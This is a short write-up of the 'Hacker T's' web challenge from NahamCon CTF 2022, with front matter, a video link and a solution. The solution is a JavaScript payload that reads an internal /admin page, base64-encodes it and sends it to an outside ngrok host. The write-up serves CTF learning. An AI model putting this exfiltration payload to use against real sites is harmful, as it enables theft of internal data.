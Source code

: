 ```yaml
---
name: Hacker T's (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Hacker T's (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Hacker T's

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=1362 "NahamCon CTF 2022: Hacker T's")

## Description

> We all love our hacker t-shirts. Make your own custom ones.

## Solution

```js
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://localhost:5000/admin");
xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://9106-81-103-153-174.ngrok.io?flag=" + flag);
    exfil.send();
};
xhr.send();
```

